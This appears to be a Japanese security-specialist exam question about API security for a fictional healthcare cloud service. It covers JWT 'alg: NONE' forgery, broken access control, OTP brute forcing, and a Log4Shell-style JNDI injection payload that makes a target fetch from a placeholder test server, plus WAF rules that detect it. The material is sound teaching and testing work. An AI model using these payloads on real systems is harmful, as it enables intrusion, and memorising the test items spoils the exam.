

## 問1 API セキュリティに関する次の記述を読んで、設問に答えよ。

G社は、ヘルスケアサービス新興企業である。利用者が食事、体重などを入力して、そのデータを管理したり、健康リスクの判定や食事メニューのアドバイスを受けたりできるサービス(以下、サービスYという)を計画している。具体的には、クラウドサービス上にサービス Y用のシステム(以下、Sシステムという)を構築して、G社が既に開発しているスマートフォン専用アプリケーションプログラム (以下, G社スマホアプリという) からアクセスする。Sシステムの要件を図1に示す。

**図1 Sシステムの要件 (抜粋)**

  - **要件1:** 利用者が入力したデータを蓄積する。
  - **要件2:** 蓄積したデータを機械学習で学習し、その結果を利用して健康リスクの判定や食事メニューのアドバイスを利用者に提供する。
  - **要件3:** 利用者のステータス(以下、利用者ステータスという)として、“有償利用者”と“無償利用者”を定義する。有償利用者の場合、全ての機能を利用できる。無償利用者の場合、機能の利用に一部制限がある。
  - **要件4:** 可能な限り、既存のサービスやライブラリを使って構築する。

G社は、Sシステムの構築を ITベンダーF社に委託した。F社との協議の結果、クラウドサービスプロバイダE社のクラウドサービス上にSシステムを構築する方針にした。

### [API の設計]

S システムには、将来的には他社が提供するスマートフォン専用アプリケーションプログラムからもアクセスすることを想定し、RESTful API 方式のAPI (以下,SシステムのAPIをS-API という)を用意する。RESTful API の設計原則の一つにセッション管理を行わないという性質がある。この性質を <span style="display:inline-block; border: 1px solid black; padding: 0 10px; text-align: center;">a</span> という。

E社が提供するクラウドサービスのサービス一覧を表1に、サービスYのシステム構成を図2に、S-API呼出し時の動作概要を図3に、S-APIの仕様を表2に、Sシステムの仕様を図4に、それぞれ示す。

**表1 E社が提供するクラウドサービスのサービス一覧 (抜粋)**
*注記 Sシステムの構築時点では、サービスNを導入しない計画である。*
| サービス名 | サービス概要 |
| :--- | :--- |
| サービス K | API ゲートウェイサービスである。当該サービスは、APIへのリクエストを受信し、その内容に基づき、サービスLを呼び出す。 |
| サービスL | イベント駆動型のコンピューティングサービスである。サービス K からの呼出しがあったとき、又は指定された日時に、事前に定義された処理を実行する。また、外部サービスと連携する。 |
| サービス M | マネージド型のデータベースサービスである |
| サービス N | マネージド型のWAF サービスである。サービスKが受信した API へのリクエストを検査して、許可・検知・遮断を行う。 |

**図2 サービスYのシステム構成**
*注記 サービスK及びサービスLからインターネットへの通信は許可されている。*



**図3 S-API 呼出し時の動作概要(抜粋)**

  - S-API が呼び出されると、S-API へのリクエストは、サービスKが一元的に受ける。サービス Kは、そのリクエスト内容に基づき、サービスLを呼び出す。サービスLは、事前に定義された処理を実行してレスポンスをサービスKに返し、サービスKは、G社スマホアプリにレスポンスを返す。
  - サービスLでは、データベースのデータの読取り又は書込みが必要な場合は、事前に定義された処理からサービスMを呼び出す。

**表2 S-API の仕様(抜粋)**
*注記 S システムは、表中のパラメータのほか、HTTP リクエストのヘッダに含まれる情報を用いて処理を行う。*
| API 名 | 概要 | メソッド | パラメータ |
| :--- | :--- | :--- | :--- |
| **認証 API** | ・利用者IDとパスワードを検証する。<br>・利用者 IDとパスワードが事前に登録されたものと一致した場合、毎回ランダムに生成される数字4桁の文字列(以下,文字列Xという)を、事前に登録されたメールアドレスに送信する。<br>・一致しなかった場合,“認証失敗”となる。 | POST | mid(利用者ID)<br>pass (パスワード) |
| | ・利用者のG社スマホアプリから受信した利用者IDと数字4桁の文字列を検証する。<br>・G社スマホアプリから受信した文字列が文字列Xと一致した場合、“認証成功”と判定し、JSON Web Token(以下,JWT という)を発行してJWT を含むレスポンスを返す。<br>・文字列Xを生成してから10分以内に“認証成功”とならなかった場合、“認証失敗”となる。 | POST | mid(利用者ID)<br>otp (G社スマホアプリから受信した文字列) |
| **利用者 API** | 利用者情報を取得、更新する。F社が既に開発済みの利用者管理共通ライブラリ(以下,共通モジュールPという)を利用する。共通モジュール P, 及び共通モジュールPを呼び出す処理(以下、P呼出し処理という)は、サービスLに定義されており、利用者ステータスの管理にも利用される。共通モジュール Pは、サービス M を呼び出して、次の処理を行う。<br>- GET メソッドが使われた場合、パラメータ mid で指定された利用者 ID にひも付く利用者情報を含むレスポンスを返す。<br>- PUT メソッドが使われた場合、パラメータ mid で指定された利用者 ID にひも付く利用者情報を更新する。 | GET<br><br>PUT | mid(利用者ID)<br><br>mid(利用者ID)<br>name(名前)<br>age(年齢) |

**図4 Sシステムの仕様 (抜粋)**

  - **〔JWT を利用したアクセス〕**
      - JWTは、“ヘッダ”, “ペイロード”, “署名”の 3 種類の要素から構成されており、各要素はbase64url でエンコードされ、“.(ドット)”で結合されている。
          - **ヘッダ:** 署名の作成の際に使用するアルゴリズムが指定される。
          - **ペイロード:** 利用者ID,有効期限などが含まれる。
          - **署名:** ヘッダに指定されたアルゴリズムとシステムが生成したシークレットを使用し、ヘッダとペイロードに対する署名が作成される。
      - Sシステムでは、JWTの管理に、F社が開発したJWT 管理ライブラリ (以下、ライブラリQという)を利用する。
      - Sシステムから発行された JWT は、G社スマホアプリに保存される。G社スマホアプリは、HTTP リクエスト内の Authorization ヘッダに Bearer スキームとJWTを設定し、Sシステムに送信する。Sシステムは、受信したJWT をライブラリQに渡す。ライブラリQは、JWT 内のヘッダに指定されたアルゴリズムに基づいて JWT を検証する。JWT内の署名を検証した後、ペイロードに含まれた利用者 ID を確認して利用者を識別し、必要な情報を含めてレスポンスを返す。
      - JWT を利用したアクセスは、ペイロードに含まれた有効期限まで許可される。
  - **〔有償利用者に対する課金方法〕**
      - 課金には外部の課金サービスを利用する。
  - **〔機械学習による学習と判定・アドバイス〕**
      - 健康リスクの判定や食事メニューのアドバイスを行うため、外部の機械学習サービスを学習と分析に利用する。
      - 機械学習による学習は、日次バッチ処理で実現する。サービスLに定義された処理を午前1時に起動して、サービスMからデータを取り出し、外部の機械学習サービスにデータを入力する。
      - G社スマホアプリから S-API の一つである健康リスク判定 API, 食事推奨 API が呼び出された場合、サービスLに定義された処理が外部の機械学習サービスを呼び出して、判定・アドバイスを取得する。

### [脆弱性診断の結果]

S システムの構築が進み全ての機能を動作確認できたので、G社でSシステムのセキュリティを担当するRさんが、セキュリティベンダーであるU社に脆弱性診断(以下、診断という)を依頼した。U社による診断レポートを表3に示す。

**表3 U社による診断レポート (抜粋)**
| 項番 | 名称 | 対象 API | 脆弱性 |
| :--- | :--- | :--- | :--- |
| 1 | JWT 改ざんによるなりすまし | 全体 | JWT に指定された利用者 ID を利用してデータが取得、更新されるので、ヘッダとペイロードを改ざんした。 JWT を送信すると、他の利用者へのなりすましが可能である。 |
| 2 | アクセス コントロール の不備 A | 利用者 API | パラメータ mid に他の利用者ID を指定すると、他の利用者IDにひも付く利用者情報を取得、改変できてしまう。 |
| 3 | アクセス コントロール の不備 B | 利用者 API | 利用者 API で利用者情報を更新する場合, “paid” という値を設定したパラメータ "status" を追加して送信すると、利用者ステータスを無償利用者から有償利用者に改変できてしまう。 |
| 4 | 2 要素認証の突破 | 認証 API | 総当たり攻撃によって、文字列 X を使った認証メカニズムを突破できる。1秒間に10回試行する総当たり攻撃を行った場合、文字列 X の検証において、平均的な認証成功までの時間は <span style="display:inline-block; border: 1px solid black; padding: 0 10px; text-align: center;">b</span> 秒になり、突破される可能性が高い。 |

表3の項番1について、U社のセキュリティコンサルタントで情報処理安全確保支援士(登録セキスペ)のZ氏は、次のように説明した。

  - 認証 APIで、利用者ID“user01" での認証が成功した後、診断中に発行された JWTのデコード結果は、表4のとおりであった。

**表4 JWT のデコード結果 (抜粋)**
| ヘッダ | ペイロード |
| :--- | :--- |
| {<br>  "alg": "RS256",<br>  (省略)<br>} | {<br>  "user": "user01",<br>  "iat": 1713059329,<br>  "exp": 1713664129,<br>  (省略)<br>} |

  - ここで、表4中の “RS256” の代わりに “NONE”を指定し, “user01 を他の利用者IDに改ざんしたJWTを送信したところ、改ざんしたJWTの検証が成功し、他の利用者へのなりすましができた。

項番2~4についても説明を受けた後、G社は、表3の脆弱性を分析し、対策について、F社、U社を交えて検討した。
Rさんが取りまとめた脆弱性の分析と対策案を表5に示す。

**表5 脆弱性の分析と対策案**
| 表3の項番 | 分析 | 対策案 |
| :--- | :--- | :--- |
| 1 | (省略) | ①<u>ライブラリQを修正する</u> |
| 2 | (省略) | ②<u>P呼出し処理に処理を追加する</u> |
| 3 | 利用者 API の仕様には、パラメータ "status" の指定について定義されていない。一方、実装は、指定されたパラメータを検証せず全て <span style="display:inline-block; border: 1px solid black; padding: 0 10px; text-align: center;">c</span> に送信していた。ここで、送信内容を改ざんしてパラメータ “status” を追加してリクエストを送信すると <span style="display:inline-block; border: 1px solid black; padding: 0 10px; text-align: center;">c</span> は利用者ステータスを変更できる。 | プログラムの修正で対応する。 |
| 4 | (省略) | 次の対策を実施する。<br>・ <span style="display:inline-block; border: 1px solid black; padding: 0 10px; text-align: center;">d</span> を実装する。そのしきい値は10とする。<br>・突破される可能性を十分に低減するために、文字列Xを数字6桁に変更する。 |

全ての対応が完了した後、試用モニターを対象に、サービスの提供を開始した。

### [セキュリティの強化]

G社は、試用モニターへのサービスの提供期間中に、インシデント対応に必要なログの取得方法を検討することになり、F社と協議した。
F社によれば、ログ取得モジュールを実装するには時間が掛かるが、ログ取得モジュールを実装しなくても、サービスNを導入することによって、通信ログを取得できるという。

**図5 サービスNにおける WAF ルールの記述形式**

  - ルールは、[検証対象], [パターン] 及び [動作]の三つを1行に記述する。
  - [検証対象]には、次のいずれかを指定する。
      - `GET` : GET メソッドのパラメータの値を検証対象とする。
      - `POST` : POST メソッドのパラメータの値を検証対象とする。
      - `PUT` : PUT メソッドのパラメータの値を検証対象とする。
      - `ANY` : 全てのメソッドのパラメータの値を検証対象とする。
      - `Header` : 全てのヘッダの値を検証対象とする。
      - `COOKIE` : cookieの値を検証対象とする。
      - `Multipart`: Multipart/form-data のフィールドの値を検証対象とする。
  - [パターン]には、次の要素で構成される正規表現を指定する。
      - `\W` : 任意の非英数字とマッチする。
      - `^` : 文字列の先頭とマッチする。
      - `x|y` : x又はyとマッチする。
      - `(xy)z`: xz又はyz とマッチする。
      - `[xyz]` : x,y又はzのいずれかにマッチする。
      - `.` : 任意の文字とマッチする。
      - `.` : “.”とマッチする。
      - `*` : 直前の要素の0回以上の繰返しにマッチする。
  - [動作]には、次のいずれかを指定する。
      - `許可`: 通信を通過させ、ログに記録しない。
      - `検知`: 通信を通過させ、ログに記録し、管理者にアラートを送信する。
      - `遮断`: 通信を遮断し、ログに記録し、管理者にアラートを送信する。

Rさんは、サービスNのSシステムへの導入を責任者に提案し、承認を得た。サービスNの導入完了後、サービスの提供を開始した。

### [新たな脆弱性への対応]

数週間後、ライブラリHというオープンソースのライブラリに脆弱性Vという脆弱性があることが公表された。Rさんは、脆弱性Vについての関連情報を図6のように取りまとめた。

**図6 脆弱性についての関連情報(抜粋)**

  - ライブラリHは、非常に多くのシステムで利用されており、既に脆弱性Vが攻撃に悪用されている事例が報告されている。
  - 脆弱性Vが存在するサーバ (以下、攻撃対象サーバという) への攻撃の流れを次に示す。
    1.  攻撃者は、事前に攻撃用 LDAP サーバと攻撃用 HTTP サーバを準備する。
    2.  攻撃者は、実行したいコマンド(以下、コマンドCという)をbase64 でエンコードした文字列を含む、攻撃用 LDAP サーバに送信する LDAP リクエスト (以下、LDAP リクエストWという)を作成する。その後、LDAP リクエストWを含み、脆弱性を悪用するJNDI Lookup (Java Naming and Directory Interface Lookup) を行う攻撃コードを準備する。
    3.  準備した攻撃コードを HTTP リクエストのx-api-version ヘッダの値として指定した HTTPリクエストを攻撃対象サーバに送信する。
    4.  攻撃対象サーバは、HTTP リクエストを受信すると、攻撃コードを実行する。攻撃コードのJNDI Lookup を実行し、LDAP リクエストWを攻撃用 LDAPサーバに送信する。
    5.  攻擊用 LDAP サーバは、LDAP リクエスト Wから、コマンドCをbase64 でエンコードした文字列を取り出し、デコードしてコマンドCを取り出す。コマンドCを実行させる Java クラスファイル(以下、Jファイルという)を自動生成し、攻撃用HTTP サーバに配置する。攻撃用HTTP サーバは、Jファイルが配置された攻撃用 HTTP サーバのURL (以下、URL-Jという)を攻撃用 LDAPサーバに伝える。
    6.  攻撃用 LDAP サーバは、URL-JをLDAP レスポンスに記載して攻撃対象サーバに返す。
    7.  攻撃対象サーバは、受信したLDAP レスポンスに記載されたURL-Jにアクセスし、Jファイルをダウンロードして、コマンドCを実行する。
  - 脆弱性VのCVSS v3.1に基づいた基本値は9.8と高く、早急な対応が推奨されている。しかし、現時点において、ライブラリHの公式 Web サイトでは、脆弱性を修正したバージョンや暫定対策は提供されていない。
  - G社はSシステムでライブラリHを利用しているかをF社に問い合わせているが、Sシステムの構成を詳細に分析しなければならず、回答まで時間が掛かるとのことである。
  - E社は、脆弱性を悪用した攻撃を検知するために、サービス N における WAF ルールを現在開発中であるが、悪用パターンが多岐にわたることから、網羅性のある WAF ルールの提供には最大で72時間掛かると発表している。

Rさんは、脆弱性Vへの対応方針をZ氏に相談した。Z氏は、F社の回答を待ってからの対応では遅いので、システムに影響を与えない検証コードをSシステムに対して実行し、外部から脆弱性を悪用できるか検証するよう提案した。Rさんは、Z氏の協力の下、図7に示す手順で検証を実施した。

**図7 Rさんが実施した検証手順**

1.  攻撃用 LDAP サーバと攻撃用 HTTP サーバを兼ねたサーバ (以下、テストサーバという)を構築する。
2.  図8に示す検証コードを作成する。
3.  ③<u>図8で指定したコマンドが実行されたことを確認する仕組み</u>をテストサーバに実装する。
4.  検証コードをHTTP リクエスト中に指定してSシステムに送信する。

**図8 作成した検証コード**
*注記1 a2.b2.c2.d2は、Rさんがテストサーバに割り当てたIPアドレスである。*
*注記 2 d2dLdCBodHRwOi8vYTIuYjIuYzIuZDIvaW5kZXguaHRtbA==のデコード結果は, wget http://a2.b2.c2.d2/index.html である。これは、コマンドCに相当する。*

```
${jndi:ldap://a2.b2.c2.d2:1389/Command/Base64/d2dLdCBodHRwOi8vYTIuYjIuYzIuZDIvaW5kZXguaHRtbA==}
```

検証の結果、外部から脆弱性を悪用できることが確認できた。この結果を踏まえて、Rさんは、脆弱性を悪用する攻撃に備え、E社から WAF ルールが提供されるまでの間、現在判明している悪用パターンに対応可能な暫定的なWAF ルールで攻撃を遮断することにした。
Rさんが考えたWAF ルールの案を表6に示す。

**表6 WAF ルールの案**
| ルール | 検証対象 | パターン | 動作 |
| :--- | :--- | :--- | :--- |
| 1 | <span style="display:inline-block; border: 1px solid black; padding: 0 10px; text-align: center;">e</span> | `\Wjndi\W` | 遮断 |
| 2 | <span style="display:inline-block; border: 1px solid black; padding: 0 10px; text-align: center;">f</span> | `\WLdap\W` | 遮断 |

Rさんは、例えば“jnDI”のように大文字・小文字を入れ替える手口によって、ルール1と2それぞれで、案のパターンを回避する方法があることに気付いた。④<u>このような手口にも対応できるように案を変更した。</u>その後、変更後の案の確認をZ氏に依頼した。
Z氏は、⑤<u>本番運用開始後の一定期間においては、WAF ルールの動作には“検知”を設定して、サービス Yが今までどおり利用できるかを確認する</u>ことを助言した。Rさんは、Z氏の助言を踏まえて、WAF ルールを設定した。
後日 Sシステムでは、ライブラリ Hを利用しているとの回答がF社からあった。また、E社からサービスNにおける WAF ルールが提供された。その後、脆弱性を修正したバージョンがライブラリ Hの公式 Web サイトで配布され、Sシステム内のライブラリHのバージョンを最新にすることで、脆弱性Vへの対応が完了した。

-----

### 設問1

本文中の <span style="display:inline-block; border: 1px solid black; padding: 0 10px; text-align: center;">a</span> に入れる適切な字句を答えよ。

### 設問2

[脆弱性診断の結果] について答えよ。
(1) 表3中の <span style="display:inline-block; border: 1px solid black; padding: 0 10px; text-align: center;">b</span> に入れる適切な数値を、小数点以下を四捨五入して、整数で答えよ。
(2) 表5中の下線①について、修正後のライブラリQで行う JWT の検証では、どのようなデータに対してどのような検証を行うか。検証対象となるデータと検証の内容を、それぞれ20字以内で答えよ。
(3) 表5中の下線②について、P呼出し処理に追加すべき処理を、40字以内で具体的に答えよ。
(4) 表5中の <span style="display:inline-block; border: 1px solid black; padding: 0 10px; text-align: center;">c</span> に入れる適切な字句を、表2中の用語で答えよ。
(5) 表5中の <span style="display:inline-block; border: 1px solid black; padding: 0 10px; text-align: center;">d</span> に入れる適切な処理内容を 30字以内で答えよ。

### 設問3

[新たな脆弱性への対応] について答えよ。
(1) 図7中の下線③について、テストサーバに実装する仕組みを、35字以内で具体的に答えよ。
(2) 表6中の <span style="display:inline-block; border: 1px solid black; padding: 0 10px; text-align: center;">e</span> 、 <span style="display:inline-block; border: 1px solid black; padding: 0 10px; text-align: center;">f</span> に入れる適切な字句を、図5中から選び答えよ。
(3) 本文中の下線④の変更後の案について、表6中のルール1に記述すべきパターンを、図5の記述形式で答えよ。
(4) 本文中の下線⑤について、WAF ルールの動作に“遮断”ではなく“検知”を設定することによる利点と、“検知”に設定した際に被害を最小化するために実施すべき内容を、それぞれ25字以内で答えよ。

-----


